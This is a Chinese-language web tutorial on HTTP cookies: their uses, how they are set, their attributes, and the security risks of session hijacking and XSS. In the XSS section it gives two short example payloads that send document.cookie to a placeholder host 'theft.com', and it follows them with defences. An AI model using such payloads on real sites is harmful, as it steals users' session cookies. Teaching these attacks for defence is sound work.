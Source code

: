 ## Cookie用途

**记录会话**

  我们都知道http为无状态协议，即使客户端C上一次请求A告诉服务端S他是谁，下一次请求B到服务端S时，服务端S依然不知道是谁在访问，所以需要一个记录来跟踪用户登录状态，最常用的就是Cookie了，现在也有很多不传送cookie，走http headers进行认证，这样的话可以减少传送一些客户端才需要使用的cookie，节省带宽

**行为分析**

  通过cookie去跟踪用户的轨迹和使用情况，分析这些这些数据，（用户浏览了什么页面和内容/什么时候访问的/在当前页面停留多久/浏览最多的页面/查询最多的关键词等），从而可以定向精准的投放广告服务或者个性化服务，例如谷歌搜索，会记录你每次的搜索关键词，向你推荐相关关键词，了解你的兴趣爱好

## Cookie设置
cookie的设置方式又2种，第一种是由服务端的响应头中添加Set-Cookie，该响应头可以有多个同时存在，如
```js   
HTTP/1.1 200 OK
Content-type: text/html
Set-Cookie: theme=light
Set-Cookie: sessionToken=abc123; Expires=Wed, 09 Jun 2021 10:18:14 GMT; httponly
```
第二种在客户端通过js进行设置，如
```js
document.cookie='cookieName=cookieValue; expires=Tue, 06 Apr 2021 11:46:35 GMT; path=/; domain=xxx.com; secure;samesite=strict'
```
#### 属性说明

- **expires** => 值为GMT时间字符表示过期的日期点，可以设置该值为过去日期来删除该cookie<br>

- **maxage** => 值为未来的时间长度，单位为S，表示过期的时间长度<br>

- **path** => 限制cookie在该路径下，只能在该路径下才能发送<br>

- **domain** => 限制cookie在该域下，可以在该域和子域下发送，如果没有设置则只在该域下发送<br>

- **secure** => 限制只能在https下加密传输<br>

- **samesite** => 控制跨域下请求是否发送cookie,有三个值，分别为none(可以),strict（只在同域下发送站点）,lax（和strict差不多，不过只能通过link这种外部导航方式进入才会发送），默认为lax<br>

- **httponly** => 只通过http暴露cookie,这就表示不能通过js脚本document.cookie设置和访问<br>

#### 注意事项
`1. 没有设置expires或者maxage则默认为会话cookie，浏览器关闭之后则消失，反之为持久cookie`<br>
`2. 没有设置domain或者path则默认只能在当前域或路径下传送cookie`<br>
`3. 删除cookie时，domain和path需要一致`<br>
`4. httponly只能通过服务端Set-Cookie设置`<br>
## Cookie安全
#### session hijacking（会话劫持）
在客户端和服务端之间进行cookie的传输时，网络上的流量可以被发送方以外的网络上的计算机拦截和读取，特别是在未加密开放式的wifi上，通过拦截到的cookie来冒充用户发起恶意行为<br>

1.可以使用https加密传输，同时设置secure只能通过https进行传输<br>
2.随机方式生成会话，或者基于用户信息+时间+ip地址生成会话
#### XSS（跨站脚本攻击）
在客户端执行了没有经过过滤的恶意代码将cookie发送到第三方服务器上，即使cookie添加了secure，如果第三方服务器启用了https，一样会被发送,如下代码
```js
 (new image()).src='https://theft.com/transparent.jpg?cookie='+document.cookie;
```
```html
<a href="#" onclick="window.location = 'http://theft.com/stole?cookie=' + encodeURIComponent(document.cookie); return false;">点击</a>
```

**1.杜绝源头**

- 存储时进行转义
- 不要引用来自不受信任域的js文件

**2.控制执行**

- 在输出时先对内容（来自url参数或者ajax）进行转义如（ & < > " ' / javascript:）
- 减少使用eval()、setTimeout()、setInterval()、innerHTML、document.write()等可以执行字符串的代码
- 由服务端通过Set-Cookie设置httponly，使document.cookie无法获取
